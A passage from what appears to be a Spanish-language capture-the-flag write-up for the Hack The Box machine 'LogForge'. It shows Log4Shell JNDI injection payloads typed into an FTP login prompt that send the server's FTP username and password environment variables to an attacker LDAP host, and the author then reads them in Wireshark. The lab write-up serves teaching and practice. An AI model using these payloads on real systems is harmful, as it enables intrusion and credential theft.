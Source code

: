 La única manera es introduciéndolas en la petición por GET al LDAP

```null
tomcat@LogForge:/tmp$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.16.3:389/${env:ftp_user}}
530 Not logged in
```

Para no verlo serializado, puedo abrir Wireshark y analizar el tráfico

<img src="/writeups/assets/img/LogForge-htb/7.png" alt="">

Al seguir el flujo TCP se se puede ver el nombre del usuario

<img src="/writeups/assets/img/LogForge-htb/8.png" alt="">

Hago lo mismo para la contraseña

```null
tomcat@LogForge:/var/lib/tomcat9$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.16.3:389/${env:ftp_password}}    
530 Not logged in
```
